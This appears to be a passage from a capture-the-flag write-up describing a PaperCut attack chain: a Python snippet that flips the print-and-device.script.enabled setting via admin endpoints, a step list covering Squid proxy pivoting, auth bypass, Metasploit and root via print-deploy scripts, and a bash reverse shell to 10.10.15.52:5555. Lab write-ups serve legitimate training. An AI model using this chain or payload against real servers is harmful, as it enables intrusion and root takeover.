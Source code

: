 ```python
# jsession = r.cookies.get('JSESSIONID')

# 2) send update to configuration
payload = {
    'key': 'print-and-device.script.enabled',
    'value': 'Y'
}
# r = session.post(TARGET + '/api/admin/config/set', data=payload)
# print(r.status_code, r.text)

# 3) Verify
# r = session.get(TARGET + '/api/admin/config/get?key=print-and-device.script.enabled')
# print(r.text)

# NOTE: Replace endpoints and payload shape with the correct ones from the PaperCut UI you discovered.
```

Include the working exploit script in your writeup (as you did) and annotate every step so readers understand the request/response cycle.

---

## 3) Privilege escalation — print-deploy execution as root

### Overview
With `print-and-device.script.enabled=Y`, the admin print-deploy functionality accepts scripts that are later executed by the system (as root). The attack chain used these capabilities to upload and execute a payload that resulted in a root shell.

### Steps (compact attack-chain summary)
1. Use Squid proxy to reach internal admin panel.  
2. Exploit PaperCut auth bypass to enable `print-and-device.script.enabled`.  
3. Use Metasploit / custom payload to get the `papercut` user shell (low-privilege).  
4. Log in to admin panel (or use admin endpoints now accessible) and upload a malicious "print-deploy" script.  
5. The system runs the uploaded script as root — obtain `root`.

### Example: upload and execute
- Upload a small shell script that opens a reverse shell to the attacker (ensure your listener is ready).  
- Because the print-deploy mechanism executes as root, the reverse shell connects back as root (or allows reading/writing of root-owned files), enabling `root.txt` capture.

**Example payload (upload with admin functionality):**

```bash
#!/bin/bash
# /tmp/getroot.sh - executed by print-deploy as root
bash -i >& /dev/tcp/10.10.15.52/5555 0>&1
```
